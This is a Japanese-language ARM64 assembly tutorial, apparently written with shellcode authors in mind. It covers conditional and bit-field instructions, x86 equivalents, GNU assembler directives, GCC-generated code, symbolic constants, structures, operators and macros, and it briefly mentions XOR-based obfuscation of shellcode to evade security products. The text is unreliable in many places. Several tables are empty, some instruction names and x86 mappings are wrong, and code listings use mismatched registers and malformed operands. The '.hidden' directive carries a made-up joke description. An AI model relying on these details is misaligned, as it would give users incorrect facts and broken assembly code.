前にオプションでその値を反転、負値化、1増分することができます。

CSELは本質的にC言語の三項演算子のようなものです。ARM64の中では多分お気に入りの
命令です。2つ以上のオペコードの置き換えに使用できるからです。

<table>
<tr>
    <th width="31%">ニーモニック + オペランド</th>
    <th width="27%">名称</th>
    <th>疑似命令</th></tr>
<tr>
    <td><code>CCMN Rd, #imm, #nzcv, cond</code></td>
    <td>否定条件比較（即値）</td>
    <td>NZCV = cond ? CMP(Rd, -#Imm) : #nzcv</td>
</tr>
<tr>
    <td><code>CCMN Rn, Rm, #nzcv, cond</code></td>
    <td>否定条件比較（レジスタ）</td>
    <td>NZCV = cond ? CMP(Rd, -Rm) : #nzcv</td>
</tr>
<tr>
    <td><code>CCMP Rn, #imm, #nzcv, cond</code></td>
    <td>条件比較（即値）</td>
    <td>NZCV = cond ? CMP(Rd, #imm) : #nzcv</td>
</tr>
<tr>
    <td><code>CCMP Rn, Rm, #nzcv, cond</code></td>
    <td>条件比較（レジスタ）</td>
    <td>NZCV = cond ? CMP(Rd, Rm) : #nzcv</td>
</tr>
<tr>
    <td><code>CSEL Rd, Rn, Rm, cond</code></td>
    <td>条件選択</td>
    <td>Rd = cond ? Rn : Rm</td>
</tr>
<tr>
    <td><code>CSINC Rd, Rn, Rm, cond</code></td>
    <td>条件選択増分</td>
    <td>Rd = cond ? Rn : Rm + 1</td>
</tr>
<tr>
    <td><code>CSINV Rd, Rn, Rm, cond</code></td>
    <td>条件選択反転</td>
    <td>Rd = cond ? Rn : ~Rm</td>
</tr>
<tr>
    <td><code>CSNEG Rd, Rn, Rm, cond</code></td>
    <td>条件選択負値</td>
    <td>Rd = cond ? Rn : -Rm</td>
</tr>
<tr>
    <td><code>CSET Rd, cond</code></td>
    <td>条件セット</td>
    <td>Rd = cond ? 1 : 0</td>
</tr>
<tr>
    <td><code>CSETM Rd, cond</code></td>
    <td>条件セットマスク</td>
    <td>Rd = cond ? -1 : 0</td>
</tr>
<tr>
    <td><code>CINC Rd, Rn, cond</code></td>
    <td>条件増分</td>
    <td>Rd = cond ? Rn + 1 : Rn</td>
</tr>
<tr>
    <td><code>CINV Rd, Rn, cond</code></td>
    <td>条件反転</td>
    <td>Rd = cond ? ~Rn : Rn</td>
</tr>
<tr>
    <td><code>CNEG Rd, Rn, cond</code></td>
    <td>条件負値</td>
    <td>Rd = cond ? -Rn : Rn</td>
</tr>
</table>

次の`if`文を考えます。

```c
if (c == 0 && x == y) {
    // if文の本体
}
```

最初の条件が真になる（cが0に等しい）場合にのみ2番目の条件が評価されます。
この文をアセンブリで実装するには、次のようにすればよいでしょう。

```
    cmp     c, 0
    bne     false

    cmp     x, y
    bne     false
true:
    // if文の本体
false:
    // if文の終わり
```

ARMv7-Aでは条件付き実行を使えば命令を1つ減らすことができます。代わりに以下の
コードの使用を検討してください。

```
    cmp     c, 0
    cmpeq   x, y
    bne     false
```

AArch64の性能を向上させるため、ARMは条件付き実行のサポートを止め、条件付き比較
命令などの専用の命令に置き換えました。ARMv8-Aを使用すると次のようなコードが可能に
なります。

```
    cmp     c, 0
    ccmp    x, y, 0, eq
    bne     false

    // 条件が真の場合の処理
false:
```

このif文の代わりに三項演算子を使用することもできます。

```c
    bEqual = (c == 0) ? (x == y) : 0;
```

`cmp c, 0`が真(ZF=1)と評価されれば`ccmp x, y`が評価され、そうでなければ0を用いて
ZFがクリアされます。各フラグは、1、2、4、8を使って設定されます。これらの値を
組み合わせて複数のフラグを設定します。以下にフラグと分岐に必要な条件を定義
しました。

```
    .equ    FLAG_V, 1
    .equ    FLAG_C, 2
    .equ    FLAG_Z, 4
    .equ    FLAG_N, 8

    .equ    NE, 0
    .equ    EQ, FLAG_Z

    .equ    GT, 0
    .equ    GE, FLAG_Z

    .equ    LT, (FLAG_N + FLAG_C)
    .equ    LE, (FLAG_N + FLAG_Z + FLAG_C)

    .equ    HI, (FLAG_N + FLAG_C)           // LTの符号なし版
    .equ    HS, (FLAG_N + FLAG_Z + FLAG_C)  // LE

    .equ    LO, 0                           // GTの符号なし版
    .equ    LS, FLAG_Z                      // GE
```

### 2.5 ビット操作命令

これらの命令のほとんどはあるレジスタから別のレジスタへビットを抽出または
移動することを目的としています。これらの命令はバイトやワードを扱う際に
移動先のレジスタの内容を保持したり、ゼロ拡張したり、符号拡張したりす
る必要がある場合に有用な場合が多いです。

<table>
<tr>
    <th width="31%">ニーモニック + オペランド</th>
    <th width="27%">名称</th>
    <th width="42%">疑似命令<br/>Rd=0x0000000000000000, Rn=0x823456789ABCDEFF<br/>#lsb=#immr=32, #width=#imms=23</th></tr>
<tr>
    <td><code>BFI Rd, Rn, #lsb, #width</code></td>
    <td>ビットフィールド反転</td>
    <td>Rd = 0x002bcdef00000000</td>
</tr>
<tr>
    <td><code>BFM Rd, Rn, #immr #imms</code></td>
    <td>ビットフィールド移動</td>
    <td>Rd = 0x00abcdef00000000</td>
</tr>
<tr>
    <td><code>BFXIL Rd, Rn, #lsb, #width</code></td>
    <td>ビットフィールド抽出挿入</td>
    <td>Rd = 0x0000000000082345</td>
</tr>
<tr>
    <td><code>CLS Rd, Rn</code></td>
    <td>先行符号ビットカウント</td>
    <td>Rn = 0xfffffe0123456789 -> Rd = 0x16</td>
</tr>
<tr>
    <td><code>CLZ Rd, Rn</code></td>
    <td>先行ゼロカウント</td>
    <td>Rn = 0x000ffe0123456789 -> Rd = 0xc</td>
</tr>
<tr>
    <td><code>EXTR Rd, Rn, Rm, #lsb</code></td>
    <td>レジスタ抽出</td>
    <td>Rd = 0x0000000000823456</td>
</tr>
<tr>
    <td><code>RBIT Rd, Rn</code></td>
    <td>ビット逆転</td>
    <td>Rn = 0x01234567890abcdef -> Rd = 0xf7b3d591e6a2c480</td>
</tr>
<tr>
    <td><code>REV16 Rd, Rn</code></td>
    <td>16ビットハーフワード内バイト逆転</td>
    <td>Rn = 0x0123456789abcdef -> Rd = 0x23016745ab89efcd</td>
</tr>
<tr>
    <td><code>REV32 Rd, Rn</code></td>
    <td>32ビットワード内バイト逆転</td>
    <td>Rn = 0x0123456789abcdef -> Rd = 0x67452301efcdab89</td>
</tr>
<tr>
    <td><code>REV64　Rd, Rn</code></td>
    <td>バイト逆転</td>
    <td>Rn = 0x0123456789abcdef -> Rd = 0xefcdab8967452301</td>
</tr>
<tr>
    <td><code></code></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td><code></code></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td><code></code></td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td><code></code></td>
    <td></td>
    <td></td>
</tr>
</table>

```
// 0x12345678をw0にmove
mov     w0, 0x5678
mov     w1, 0x1234
bfi     w0, w1, 16, 16

// x1の位置8からの8ビットをx0レジスタの位置0に抽出する
// x1=0x12345678の場合、x0=0x00000056となる
ubfx    x0, x1, 8, 8

// x1の位置8からの8ビットを0クリアしたx0レジスタの位置8に抽出する
// x1=0x12345678の場合、x0=0x00005600となる
ubfiz   x0, x1, 8, 8

// x1の位置0からの8ビットをx0レジスタの同じ位置に抽出する
// x1=0x12345678、x0=0x0aABCDEFの場合、実行後 x0=0x9ABCD78となる
bfxil   x0, x1, 0, 8

// 下位8ビットをクリアする
bfxil   x0, xzr, 0, 8

// 8ビットをゼロ拡張する
uxtb    x0, x0
```

### 2.5 分岐命令

分岐命令は条件フラグや汎用レジスタの値を使って実行の流れを変える命令です。
分岐はx86アセンブリでは「ジャンプ」と呼ばれています。

<table>
<tr><th width="20%">ニーモニック</th><th width="20%">オペランド</th><th>命令</th></tr>
<tr>
    <td></td>
    <td></td>
    <td></td>
</tr>
</table>

TRUEかFALSEかを調べてサブルーチンを呼び出すことは非常に一般的なので
TBZ/TBNZやCBZ/CBNZなどの条件分岐命令があるのはまことに理にかなっています。
これらに近いx86の命令はCXレジスタの値が0の場合にジャンプするJCXZくらいです。
ただし、x86のサブルーチンは通常、アキュムレータ（AX）に結果を返し、カウンタ
レジスタ（CX）は通常、反復やループに使用されています。

### 2.7 システム命令

シェルコードで使用する主たるシステム命令はスーパバイザコール`SVC`です。

<table>
<tr><th width="20%">ニーモニック</th><th width="20%">オペランド</th><th>命令</th></tr>
<tr>
    <td></td>
    <td></td>
    <td></td>
</tr>
</table>

NZCVという名前の条件付きフラグの読み書きができる専用レジスタがあります。

```
    // 条件フラグを読む
    .equ    OVERFLOW_FLAG,  1 << 28
    .equ    CARRY_FLAG,     1 << 29
    .equ    ZERO_FLAG,      1 << 30
    .equ    NEGATIVE_FLAG,  1 << 31

    mrs     x0, nzcv

    // Cフラグをセット
    mov     w0, CARRY_FLAG
    msr     nzcv, w0
```

### 2.8 x86とA64の比較

次の表はx86の命令とそれに相当するA64の命令です。決して包括的なリストでは
ありません。主に、使用したり、ディスアセンブルコードで見る可能性の高い
一般的な命令です。x86に相当する命令がない場合もあり、そのような命令は
含まれていません。

<table>
<tr>
    <th width="15%">x86</th>
    <th width="15%">A64</th>
    <th>命令</th>
</tr>
<tr><td>MOVZX</td><td>UXT</td><td>ゼロ拡張</td></tr>
<tr><td>MOVSX</td><td>SXT</td><td>符号拡張</td></tr>
<tr><td>BSWAP</td><td>REV</td><td>バイトオーダ逆転</td></tr>
<tr><td>SHR</td><td>LSR</td><td>論理右シフト</td></tr>
<tr><td>SHL</td><td>LSL</td><td>論理左シフト</td></tr>
<tr><td>XOR</td><td>EOR</td><td>ビット単位排他的OR</td></tr>
<tr><td>OR</td><td>ORR</td><td>ビット単位OR</td></tr>
<tr><td>NOT</td><td>MVN</td><td>ビット単位NOT</td></tr>
<tr><td>SHRD</td><td>EXTR</td><td>倍精度疑義シフト/レジスタペアからレジスタ抽出</td></tr>
<tr><td>SAR</td><td>ASR</td><td>算術右シフト</td></tr>
<tr><td>SBB</td><td>SBC</td><td>ボロー/キャリー付き減算</td></tr>
<tr><td>TEST</td><td>TST</td><td>ビット単位ANDを実行しフラグをセットして結果を破棄</td></tr>
<tr><td>CALL</td><td>BL</td><td>リンク付き分岐/サブルーチンコール</td></tr>
<tr><td>JNE</td><td>BNE</td><td>等しくなければジャンプ/分岐</td></tr>
<tr><td>JS</td><td>BMI</td><td>符号/マイナスでジャンプ/分岐</td></tr>
<tr><td>JG</td><td>BGT</td><td>より大でジャンプ/分岐</td></tr>
<tr><td>JGE</td><td>BGE</td><td>以上でジャンプ/分岐</td></tr>
<tr><td>JE</td><td>BEQ</td><td>等しければジャンプ/分岐</td></tr>
<tr><td>JC/JB</td><td>BCS/BHS</td><td>キャリー/ボローでジャンプ/分岐</td></tr>
<tr><td>JNC/JNB</td><td>BCC/BLO</td><td>キャリー/ボローなしでジャンプ/分岐</td></tr>
<tr><td>JAE</td><td>BPL</td><td>より大でジャンプ/プラス、0以上で分岐</td></tr>
</table>

## 3. GNUアセンブラ

GNUツールチェーンにはコンパイラコレクション（gcc）、デバッガ（gdb）、
Cライブラリ（glibc）、アセンブラ（gas）、リンカ（ld）などが含まれます。GNU
アセンブラ (GAS) は多くのアーキテクチャをサポートしているので、あなたがARM
アセンブリを書き始めたばかりであるなら、今のところLinux用にこれ以上の
アセンブラをお勧めすることはできません。とはいえ、次のような製品で実験
してみるのもいいかもしれません。

- Keil
- CCS
- IAR

### 3.1 プリプロセッサディレクティブ

以下のディレクティブはGASでアセンブリコードを書く際に個人的にもっとも有用で
あったものです。

<table>
<tr>
    <th width="25%">ディレクティブ</th>
    <th>説明</th>
</tr>
<tr>
    <td>.arch <i>name</i></td>
    <td>ターゲットアーキテクチャを指定します。ターゲットアーキテクチャで実行できない命令をアセンブルしようとするとアセンブラはエラーメッセージを発行します。nameの指定例: armv8-a, armv8.1-a, armv8.2-a, armv8.3-a, armv8.4-a など。GCCの-marchオプションに相当します(Raspi 3B+はarmv8.4-a)。</td>
</tr>
<tr>
    <td>.cpu <i>name</i></td>
    <td>ターゲットプロセッサを指定します。ターゲットプロセッサで実行できない命令をアセンブルしようとするとアセンブラはエラーメッセージを発行します。nameの指定例: cortex-a53, cortex-a76。GCCの-mcpuオプションに相当します。</td>
</tr>
<tr>
    <td>.include "<i>file</i>"</td>
    <td>"file"からアセンブリコードをインクルードします。</td>
</tr>
<tr>
    <td>.macro <i>name arguments</i></td>
    <td>アセンブリ出力を生成するマクロを定義します。</td>
</tr>
<tr>
    <td>.if</td>
    <td><code>.if</code>は、引数（絶対式でなければならない）が0でない場合にのみアセンブルされるソースプログラムの一部とみなされるコードのセクションの開始をマークします。コードの条件付きセクションの終わりは<code>.endif</code>でマークされなければなりません。</td>
</tr>
<tr>
    <td>.global <i>symbol</i></td>
    <td><i>symbol</>変数をldに見えるようにします</td>
</tr>
<tr>
    <td>.equ <i>symbol, expression</></td>
    <td>シンボル定数を定義します。Cのdefineディレクティブに相当します。</td>
</tr>
<tr>
    <td>.set <i>symbol, expression</i></td>
    <td><i>symbol</i>の値に<i>expression</i>を設定します。シンボルに<i>external</i>というフラグがついている場合は、フラグはそのままです。値を後で変更できる点を覗いて、equateディレクティブ(.EQU)と同じです。</td>
</tr>
<tr>
    <td><i>name</i> .req <i>register name</i></td>
    <td><i>name</i>という名前の<i>register name</i>の別名を作成します。例: <code>A .req x0</code></td>
</tr>
<tr>
    <td>.size</td>
    <td>関数やオブジェクトが使用する空間をアセンブラに知らせます。関数が使用されない場合、リンカはそれを除外することができます。</td>
</tr>
<tr>
    <td>.struct <i>expression</i></td>
    <td>絶対セクションに切り替え、<i>expression</i>へのセクションオフセットをせってします。<i>expression</i>は絶対式でなければなりません。</td>
</tr>
<tr>
    <td>.skip <i>size, fill</i></td>
    <td>各バイトの値が<i>fill</i>である<i>size</i>バイトを出力します。<i>size</i>と<i>fill</i>はともに絶対式です。カンマと<i>fill</i>が省略された場合、<i>fill</i>は0とみなされます。これは'.space'と同じです。</td>
</tr>
<tr>
    <td>.space <i>size, fill</i></td>
    <td>各バイトの値が<i>fill</i>である<i>size</i>バイトを出力します。<i>size</i>と<i>fill</i>はともに絶対式です。カンマと<i>fill</i>が省略された場合、<i>fill</i>は0とみなされます。これは'.skipと同じです。</td>
</tr>
<tr>
    <td>.text <i>subsection</i></td>
    <td>後続の文を<i>subsection</i>番号の付いたtextサブセクションの最後に組み入れるよう知らせます。サブセクションは絶対式です。<i>subsection</i>が省略された場合はサブセクション番号0が使用されます。</td>
</tr>
<tr>
    <td>.data <i>subsection</i></td>
    <td>後続の文を<i>subsection</i>番号の付いたdataサブセクションの最後に組み入れるよう知らせます。サブセクションは絶対式です。<i>subsection</i>が省略された場合はデフォルト値は0です。</td>
</tr>
<tr>
    <td>.bss</td>
    <td>未初期化データセクション</td>
</tr>
<tr>
    <td>.align <i>abs-expr, abs-expr, abs-expr</i></td>
    <td>（現在のサブセクションの）位置カウンタを特定のストレージ境界に合わせます。最初の式（絶対式でなければならない）は以下で説明する必要なアライメントです。2番目の式（これも絶対式）はパディングバイトに埋め込む値を与えます。この式（とカンマ）は省略可能です。省略した場合、パディングバイトは通常ゼロになります。ただし、セクションがコードを含むとマークされており、かつフィル値が省略された場合にno-op命令で埋められるシステムもあります。3番目の式も絶対式かつオプションです。存在する場合、それはこのアライメントディレクティブによってスキップされるべき最大バイト数です。アライメントを実行すると指定した最大値よりも多くのバイトをスキップする必要がある場合はアライメントは全く実行されません。フィル値（第2引数）を完全に省略するには必要なアライメントの後に2つのカンマを付けるだけです。これは必要であればアライメントをno-op命令で埋めたい場合に便利です。</td>
</tr>
<tr>
    <td>.ascii "<i>string</i>"</td>
    <td>.asciiはカンマ区切りの0文字以上の文字列リテラルを想定します。各文字列は、（自動的にヌル終端されることなく）連続したアドレスに組み込まれます。</td>
</tr>
<tr>
    <td>.hidden</td>
    <td>OCPの上級社員を逮捕しようとするとシャットダウンされます。</td>
</tr>
<tr>
    <td>.asciz "<i>string</>"</td>
    <td>.asciiと全く同じですが、各文字列はヌル終端されます。".asciz"の"z"は"zero"を意味します。</td>
</tr>
<tr>
    <td>.string <i>str<i><br/>.string8 <i>str<i><br/>.string16 <i>str<i></td>
    <td>バリアントのstring16、string32、string64は文字列疑似オペコードと異なり、strの各8ビット文字をコピーしてそれぞれ16、32、64ビットに拡張します。展開された文字はターゲットエンディアンのバイトオーダーで格納されます。</td>
</tr>
<tr>
    <td>.byte</td>
    <td>8ビットの変数を定義します。</td>
</tr>
<tr>
    <td>.hword/.2byte</td>
    <td>16ビットの変数を定義します。2番めのディレクティブは16ビット確保するだけです。</td>
</tr>
<tr>
    <td>.word/.4byte</td>
    <td>32ビットの変数を定義します。2番めのディレクティブは32ビット確保するだけです。</td>
</tr>
<tr>
    <td>.quad/.8byte</td>
    <td>64ビットの変数を定義します。2番めのディレクティブは64ビット確保するだけです。</td>
</tr>
</table>

### 3.2 GCCアセンブリ

GCCはアセンブリ言語を最初に学び始める時には信じられないほど便利です。
ソースコードからアセンブリ出力を生成する`-S`オプションを提供している
からです。ソースコード付きのアセンブリを生成したい場合は`-g`オプションと
`-c`オプションを付けてコンパイルし、`objdump -d -S`でダンプしてください。
ほとんどの人はアプリケーションをコードサイズではなく実行速度で最適化しようと
するのでGNU Cオプティマイザが非常に効率的にコンパクトなコードを生成する
わけではないのは当然です。新しいA.I.オーバロードがすべてを変えてくれるかも
しれませんが、少なくとも現時点ではコンパクトなアセンブリコードを書くのは
人間の方が勝っています。

例題を使って説明しましょう。以下は何の役にも立たないサブルーチンです。

```c
#include <stdio.h>

void calc(int a, int b) {
    int i;

    for (i = 0; i < 4; i++) {
        printf("%i\n", ((a * i) + b) % 5)
    }
}
```

このコードを`-Os`オプションを指定してサイズ最適化でコンパイルしてください。
以下のアセンブリはGCCによって生成されたものです。x30はリンクレジスタであり
printfの呼び出しのためにここに保存されていることを思い出してください。また、
x0-x18はprintfの呼び出しでゴミになってしまうので変数の格納にはcalle保存
レジスタであるx19-x22を使用しなければなりません。

```
        .arch armv80a
        .file   "calc.c"
        .text
        .align  2
        .global calc
        .type   calc, %function
calc:
    stp     x29, x30, [sp, -64]!    // x29, x30 (LR)をスタックに保存
    add     x29, sp, 0              // x29 = sp
    stp     x21, x22, [sp, 32]      // x21, x22をスタックに保存
    adrp    x21, .LC0               // x21 = "%i\n"
    stp     x19, x20, [sp, 16]      // x19, x29をスタックに保存
    mov     w22, w0                 // w22 = a
    mov     w19, w1                 // w19 = b
    add     x21, x21, :lo12:.LCO    // x21 = x21 + 0
    str     x23, [sp, 48]           // x23をスタックに保存
    mov     w20, 4                  // i = 4
    mov     w23, 5                  // modulusの divisor = 5
.L2:
    sdiv    w1, w19, w23            // w1 = b / 5
    mov     w0, x21                 // x0 = "%i\n"
    add     w1, w1, w1, lsl 2       // w1 *= 5
    sub     w1, w19, w1             // w1 = b - ((b / 5) * 5)
    add     w19, w19, w22           // b += a
    bl      printf

    subs    w20, w20, #1            // i = i - 1
    bne     .L2                     // while (1 != 0)

    ldp     x19, x20, [sp, 16]      // x19, x20を復元
    ldp     x21, x22, [sp, 32]      // x21, x22を復元
    ldr     x23, [sp, 48]           // x23を復元
    ldp     x29, x30, [sp], 64      // x29, x30 (LR)を復元
    ret                             // callerに復帰

    .size   calc, .-calc
    .section    .rodata.str1.1,"aMS",@progbits,1
.LC0:
    .string "%i\n"
    .ident  "GCC: (Debian 6.3.0-18) 6.3.0 20170516"
    .section    .note.GNU-stack,"",@progbits
```

`i`は0ではなく4で初期化され、増加ではなく減少させます。A64セットにはモジュロ
演算命令はなく、除算命令は余りを出力しないので割り算と掛け算、引き算を組み
合わせて計算しています。モジュロ演算は次のように計算しています: `R = N - ((N / D) * D)`

`N`は分子/被除数、`D`は除数、`R`は余りを表します。次のアセンブリコードは
人間が書くとどの様になるかを示しています。最も注目すべき変更は**add**と
**sub**を別々に記述する代わりに**msub**命令を使用している点です。

```
    .arch   armv8.4-a
    .text
    .align  2
    .global calc

calc:
    stp     x10, x20, [sp, -48]!
    stp     x21, x22, [sp, 16]
    stp     x23, x30, [sp, 32]

    mov     x19, w0             // w19 = a
    mov     w20, w1             // w20 = b
    mov     w21, 4              // i = 4
    mov     w22, 5              // 序数をセット
.LC2:
    sdiv    w1, w20, w22        // w1 = b / 5
    msub    w1, w1, w22, w20    // w1 = b - ((b / 5) * 5)
    adr     x0, .LC0            // x0 = "%i\n"
    bl      printf

    add     w20, w20, w19       // b += a
    subs    w21, w21, 1         // i = i - 1
    bne     .LC2

    ldp     x19, x20, [sp], 16
    ldp     x21, x22, [sp], 16
    ldp     x23, x30, [sp], 16
    ret

.LC0:
    .string "%i\n"
```

コンパイラが生成したアセンブリを参考にしつつ、上の例のようにコードを
改良してみてください。

### 3.3 シンボル定数

C言語のヘッダーファイルにあるシンボル定数をアセンブラのコードで使いたい
場合はどうすればよいでしょうか。選択肢は2つあります。

1. 各シンボリック定数を`.EQU`ディレクティブまたは`.SET`ディレクティブを
   使用してGASの相当する値に変換する。非常に時間がかかります。
2. Cスタイルの`#include`ディレクティブを使いGNU CPPでプリプロセスする。
   早い上に利点もあります。

2番目のオプションの方が明らかに苦痛が少なく、エラーが発生する可能性も低い
です。もちろん、1番目の選択肢を自動化する可能性を否定するわけではありませんが、
そんな事に気を病むことはありません。CPPにはそれをやってくれるオプションが
あります。マニュアルを見てみましょう。

    `-dM`は通常の出力ではなく、プリプロセッサの実行中に定義されている
    すべてのマクロ（定義済みマクロを含む）に対する`#define`ディレクティブの
    リストを生成します。これにより使用中のバージョンのプリプロセッサで何が
    定義済みであるかを知ることができます。

`-dM`はすべての`#define`マクロをダンプし、`-E`はファイルのプリプロセスを
行いますが、コンパイル、アセンブル、リンクは行いません。アセンブラのコードに
シンボリック名を使用するために必要な手順は次のとおりです。

1. `cpp -dM`を使用してインクルードヘッダーからすべての`#defined`キーワードを
   ダンプします。
2. `sort`と`uniq -u`を使用して重複を削除します。
3. アセンブリソースコードに`#include`ディレクティブを使用します。
4. `cpp -E`を使用してプリプロセスを行い、出力を新しいアセンブリファイルに
   パイプします(`-o`は出力オプションです)。
5. `as`を使用してアセンブルしてオブジェクトファイルを生成します。
6. オブジェクトファイルをリンクして実行ファイルを生成します。


次はコンソールに"Hello, World!"と表示する簡単なコードです。

```
#include "include.h"

    .global _start
    .text

_start:
    mov     x8, __NR_write
    mov     x2, hello_len
    adr     x1, hello_txt
    mov     x0, STDOUT_FILENO
    svc     0

    .data

hello_text: .ascii "Hello, World!\n"
hello_len = . - hello_txt
```

このコードを`cpp -E`を使ってプリプロセスします。その結果、次のように
シンボリック定数は割り当てられた数値に置き換えられています。


最後にGASを使ってアセンブルし、LDでリンクをします。


#### 手元の環境で実行

```
$ aarch64-linux-gnu-cpp -I/usr/local/musl/include -dM /usr/local/musl/include/unistd.h > headers.h
$ aarch64-linux-gnu-cpp -dM /usr/local/musl/include/bits/syscall.h >> headers.h
$ sort headers.h | uniq -u > include.h
$ aarch64-linux-gnu-cpp -E hello.s > hellopp.s
$ aarch64-linux-gnu-as hellopp.s -o hello.o
$ aarch64-linux-gnu-ld hello.o -o hello
```

次の2つのディレクティブは、単純なテキスト置換またはシンボル定数の例です。

```
#define FALSE   0
#define TRUE    1
```

相当な定義はGASの`.EQU`ディレクティブまたは`.SET`ディレクティブを使っても
次のように指定できます。

```
.equ    TRUE,   1
.set    TRUE,   1

.equ    FALSE,  0
.set    FALSE,  0
```

個人的には、Cプリプロセッサを使う方が理にかなっていると思いますが
どちらを使用するかはあなた次第です。

### 3.4 構造体と共用体

プログラミングにおける構造体は異なるデータ型を1つのユーザ定義データ型に
まとめるのに便利です。すべてのアセンブリプログラミングにおける大きな
落とし穴の1つはメモリアクセスの管理が不十分なことです。私自身の経験では
MASMは常にデータ構造体を最もよくサポートしていましたが、NASMとYASMはさらに
よいかもしれません。残念ながらGASの構造体に対するサポートはあまりよく
ありません。当然のことですが、Linuxにおいて手書きのアセンブリプログラムの
多くは、通常、ソースファイルの.dataセクションに配置されるグローバル変数を
使用しています。スタックに割り当てられるローカル変数しか使えないPIC
（位置独立コード）やスレッドセーフなアプリケーションでは、データ構造体は
これらの変数を管理するための参照として役立ちます。名前を割り当てると
各スタックアドレスが何のためにあるのかが明確になり、全体的な品質を向上
させます。また、構造体の要素を後で並べ替えるだけでコードを簡単に変更する
ことができます。

たとえば、次のようなCの構造体`dimension_t`をGAS のアセンブリ構文に変換
する必要があるとします。

```c
typedef struct _dimension_t {
    int x, y;
} dimension_t;
```

`struct`キーワードに最も近いディレクティブは`.struct`です。残念ながら
このディレクティブは名前を受け付けませんし、YASM/NASMでおなじみの
`.struct`と`.end`でメンバを囲むこともできません。このディレクティブが
受け付けるのは開始位置としてのオフセットだけです。

```
    .struct 0
dimesion_t.x:
    .struct dimension_t.x + 4
dimension_t.y:
    .struct dimension_t.y + 4
dimension_t_size:
```

この構造体を定義するもうひとつの方法は`.skip`ディレクティブと`.space`
ディレクティブを使用する方法です。

```
    .struct 0
dimension_t.x:  .skip   4
dimension_t.y:  .skip   4
dimension_t_size:
```

構造体の各フィールドのサイズを自分で定義しなければならないとしたら`.struct`
ディレクティブはほとんど意味がないように思われます。アセンブルする前に
`#define`キーワードの使用とファイルのプリプロセスを検討してください。

```
#define dimension_t.x       0
#dfeine dimension_t.y       4
#define dimension_t.size    8
```

共用体の場合は構造体での使用に提案したもの以上に良いものはありません。
`.set`ディレクティブと`.equ`ディレクティブを使うか、`#define`と`cpp`の
組み合わせを参照すればいいでしょう。共用体と構造体に対するGASのサポートは
望むことが多いです。

### 3.5 演算子

「多相的な(polymorphic)」シェルコードについての言及を時々見ますが、そこでは
作者は単純な算術演算やビット演算を使って文字列を隠したり難読化したりしようと
しています。通常、難読化はビットローテンションや排他的論理和によって行われ
ますがおそらくこれはセキュリティ製品による検出を回避するのに役立つと思われます。

演算子とは`+`や`%`などの算術関数です。前置演算子は引数を1つ取り、中置演算子は
2つの引数を演算子の両側に1つずつ取ります。演算子には優先順位がありますが
優先順位の等しい演算は左から右へ実行されます。

<table>
<tr><th width="20%">優先順位</th><th>演算子</th></tr>
<tr>
    <td>最高</td>
    <td>乗算(<code>*</code>)、除算(<code>/</code>)、剰余(<code>%</code>)、左シフト(<code><<</code>)、右シフト(<code>>></code>)</td>
</tr>
<tr>
    <td>中</td>
    <td>ビット単位OR(<code>|</code>)、ビット単位AND(<code>&</code>)、ビット単位排他的OR(<code>^</code>)、ビット単位Not(<code>!</code>)</td>
</tr>
<tr>
    <td>低</td>
    <td>加算(<code>+</code>)、減算(<code>-</code>)、等しい(<code>==</code>)、等しくない(<code>!=</code>)、未満(<code>&lt;</code>)、より大(<code>&gt;</code>)、以上(<code>&gt;=</code>)、以下(<code>&lt;=</code>)</td>
</tr>
<tr>
    <td>最低</td>
    <td>論理積(<code>&amp;&amp;</code>)、論理和(<code>||</code>)</td>
</tr>
</table>

次の例は、アセンブルの前に演算子を使用する方法を示しています。これらの例は
即値`0x12345678`をw0レジスタにロードしているだけです。

```
// 0x12345678 = 0b0001_0010_0011_0100_0101_0110_0111_1000

// 排他的OR
movz    w0, 0x5678 ^ 0x4823             // 0101_0110_0111_1000 ^ 0100_1000_0010_0011 = 0001_1110_0101_1011
movk    w0, 0x1234 ^ 0x5412, lst 16     // 0001_0010_0011_0100 ^ 0101_0100_0001_0010 = 0100_0110_0010_0110
movz    w1, 0x4823
movk    w1, 0x5412, lst 16      // w1 = 0x54124823 = 0101_0100_0001_0010_0100_1000_0010_0011
eor     w0, w0, w1              // w0 = 0b0001_0010_0011_0100_0101_0110_0111_1000

// MOVZ/MOVKを使って値を5ビット左にローテート
movz    w0,  (0x12345678 << 5)        |  (0x12345678 >> (32-5)) & 0xFFFF
movk    w0, ((0x12345678 << 5) >> 16) | ((0x12345678 >> (32-5)) >> 16) & 0xFFFF, lsl 16
// そして右に5ローテートすると元値が得られる
ror     w0, w0, 5

// LDRを使って右にローテート
.equ    ROT, 5

ldr     w0, =(0x12345678 << ROT) | (0x12345678 >> (32 - ROT)) & 0xFFFFFFFF
ror     w0, w0, ROT

// ビット単位NOT
ldr     w0, =~0x12345678
mvn     w0, w0

// 負値化
ldr     w0, =-0x12345678
neg     w0, w0
```

### 3.6 マクロ

いくつかのアセンブリ命令を異なるパラメータで繰り返す必要がある場合はマクロを
使用すると便利です。たとえば、コードを高速化するためにループ内の分岐をなくし
たい場合などです。32ビットの即値の値をレジスタにロードしたいとします。ARMの
命令長はすべて32ビットなので16ビットを超える即値をロードすることはできません。
即値の中にはリテラルプールに格納してLDRでロードできるものもありますが、MOV命令
だけを使って32ビットの数値0x12345678をレジスタw0にロードするには次のように
します。

```
movz    w0, 0x5678
movk    w0, 0x1234, lsl 16
```

最初の命令MOVZはw0に0x5678をロードし32ビットにゼロ拡張します。MOVKはシフトを
使用して上位16ビットに0x1234をロードし下位16ビットはそのまま保持します。
上記の2つの命令に展開するMOVLという疑似命令を提供するアセンブラもありますが、
GNUアセンブラはこれを認識しません。ここでは32ビット即値と64ビット即値を
汎用レジスタにロードでするGAS用のマクロを紹介します。

```
// MOVを使って64ビット即値をロードする
.macro  movq Xn, imm
    movz    \Xn, \imm & 0xFFFF
    movk    \Xn, (\imm >> 16) & 0xFFFF, lsl 16
    movk    \Xn, (\imm >> 32) & 0xFFFF, lsl 32
    movk    \Xn, (\imm >> 48) & 0xFFFF, lsl 48
.endm

// MOVを使って32ビット即値をロードする
.macro  movl Wn, imm
    movz    \Wn, \imm & 0xFFFF
    movk    \Wn, (\imm >> 16) & 0xFFFF, lsl 16
.endm
```

32ビットの即値をロードする必要がある場合は次のようにします。

```
movl    w0, 0x12345678
```

次のマクロはPUSH命令とPOP命令を模倣したものです。もちろん、これは1つの
レジスタしかサポートしていませんので独自のマクロを書いた方が良いでしょう。

```
// push操作を模倣
.macro  push Rn:req
    str     \Rn, [sp, -16]
.endm

// pop操作を模倣
.macro  pop Rn:req
